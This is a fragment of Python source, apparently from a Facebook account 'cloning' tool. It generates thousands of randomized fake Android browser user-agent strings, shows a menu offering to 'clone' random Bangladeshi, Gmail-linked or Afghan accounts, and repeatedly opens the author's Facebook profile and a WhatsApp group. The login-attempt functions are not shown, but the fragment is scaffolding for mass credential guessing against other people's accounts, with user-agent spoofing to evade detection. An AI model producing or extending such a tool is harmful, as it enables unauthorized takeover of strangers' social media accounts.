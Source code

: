 for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
# APK CHECK EMIL# APK CHECK EMIL# APK CHECK EMIL# APK CHECK EMIL
def snigdho():
    os.system('clear')
    os.system('xdg-open https://www.facebook.com/profile.php?id=100076855636497')
    snigdho_Hasan(logo)
    print ('\x1b[1;96m[1]  Clone From RANDOM BD    \033[1;36m[V1]')
    print ('\x1b[1;91m[2]  Clone From GMAIL        \033[1;32m[V1]')
    print ('\x1b[1;96m[3]  Clone From RANDOM AFG    \033[1;36m[V1]')
    print ('\x1b[1;92m[4]  Contact Me')
    print ('\x1b[1;96m[0]  EXIT\033[1;32m')
    print ('\x1b[1;92m------------------------------')
    action()
    print (50 * '-')
    action()
def action():
    global cpb
    global oks
    os.system('xdg-open https://www.facebook.com/profile.php?id=100076855636497')
    shuvo = input('\nINPUT===>   ')
    if shuvo == '':
        print()
        action()
    elif shuvo == '1':
        os.system('clear')
        snigdho_bd()
    elif shuvo == '2':
        os.system('clear')
        snigdho_email()
    elif shuvo == '3':
        os.system('clear')
        snigdho_pk()
    elif shuvo == '4':
        os.system('clear')
        os.system('xdg-open https://www.facebook.com/profile.php?id=100076855636497')
        print (logo)
        print('[1]Facebook \n [2] Whatapp')
        mahd = input('Chouse :')
        if mahd =='1':
            os.system("xdg-open https://facebook.com/devilsnigdho.00")
            snigdho()
        elif mahd == '2':
            os.system('xdg-open https://chat.whatsapp.com/GjQUpvAucZN8c81KNlgqmm')
            snigdho()